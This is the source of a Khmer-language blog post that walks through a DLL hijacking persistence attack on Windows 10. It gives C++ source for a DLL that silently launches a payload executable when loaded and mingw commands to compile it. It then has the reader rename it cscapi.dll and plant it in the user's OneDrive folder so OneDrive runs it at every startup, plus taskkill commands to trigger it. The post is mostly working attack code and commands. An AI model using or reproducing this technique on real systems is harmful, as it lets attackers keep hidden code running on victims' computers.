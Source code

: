 ```yaml
---
title: "DLL Hijacking - Persistence Method"
date: 2022-12-06T21:01:06+07:00
description: បើក Persistence តាមរយៈវិធីសាស្ត្រ DLL Hijacking
draft: false
hideToc: false
enableToc: true
enableTocContent: false
author: thik
authorEmoji: 🐱
tags: 
- dll
- persistence
- hijacking
categories:
- DLL Hijacking
series:
- WinExE
image: images/feature2/article-1.png
---
```


#### CPP - Execute Command Prompt

ចម្លងកូដ និង កែប្រែទីតាំងរបស់ Payload​ ។
{{< highlight cpp "linenos=table" >}}
#include <windows.h>
#include <unistd.h>
using namespace std;
void exec1() {
	WinExec("cmd.exe /c C:\\programdata\\putty.exe", 0); 
}
void exec2() {
	WinExec("cmd.exe /c calc.exe", 0);
}
BOOL WINAPI
DllMain (HANDLE hDLL, DWORD dwReason, LPVOID lpReserved)
{
	switch (dwReason)
	{
		case DLL_PROCESS_ATTACH:
			exec1();
			usleep(5000000); //5sec
			exec2();
		break;
	}
return TRUE;
}
{{< / highlight >}}

<b>យោងតាម៖</b> [dllmain](https://github.com/Amorph/tcc/blob/master/win32/lib/dllmain.c)

#### DLL Build

ចូលទៅកាន់ផ្ទាំង Terminal ក្នុងប្រព័ន្ធប្រតិបត្តិការលីនុច រួចវាយពាក្យបញ្ជាដូខខាងក្រោម៖

{{< highlight cpp "linenos=table" >}}
// To create Windows executables, you need to instsall mingw cross-compiler
sudo apt-get install mingw-w64

//For x64 compile with: 
x86_64-w64-mingw32-gcc r4t.cpp -shared -o output.dll

//For x86 compile with: 
i686-w64-mingw32-gcc r4t.cpp -shared -o output.dll
{{< / highlight >}}

#### Get Persistence In Windows 10

ប្ដូរឈ្មោះ Payload ដែលបានបង្កើតរួច ឲ្យទៅជា <span style="color:red">cscapi.dll</span> បន្ទាប់មកចម្លងឯកសារមេរោគនោះដាក់ចូលទៅកាន់បណ្ដុំនៃឯកសាររបស់ OneDrive ដែលមានទីតាំងដូចខាងក្រោម៖
{{< highlight plain "linenos=table" >}}
C:\Users\[username]\AppData\Local\Microsoft\OneDrive\ 
{{< / highlight >}}

![cscapi.dll](/en/posts/img/2022/12/dll-hijack/cscapi.jpg)

វីធីសាស្ត្រនេះគឺអាចដាក់ Persistence បានដោយប្រើប្រាស់ឯកសារយោងនៃ onedrive.exe ដូចនេះនៅរាល់ពេលដែលកម្មវិធី OneDrive ដែលបានដម្លើងមកស្រាប់ក្នុងវីនដូត្រូវបានបើកនៅក្នុង Start Up នោះវានឹងទៅបើកដំណើរការឯកសារមេរោគផ្ទាល់តែម្ដង។

ពាក្យបញ្ជាទាំងពីរខាងក្រោមនេះសម្រាប់សម្លាប់ Process ដែលកំពុងបើក និងបើកដំណើរការកម្មវិធីឡើងមកវិញ ក្នុងករណីបើអ្នកចង់សាកម្ដងដំណើរការវិធីសាស្ត្រខាងលើភ្លាមៗដោយមិនចាំបាច់ធ្វើការ Restart កុំព្យូទ័រ៕

{{< highlight plain "linenos=table" >}}
//To kill the onedrive procress type
taskkill /im onedrive.exe /f

//Run the file
cmd.exe /c onedrive.exe
{{< / highlight >}}

<b>ឯកសារយោង៖</b> [ippsec](https://www.youtube.com/watch?v=3eROsG_WNpE)
<b>អានផងដែរ៖</b> [ain-kun.medium](https://ain-kun.medium.com/dll-hijacking-onedrive-73f06ce102ce)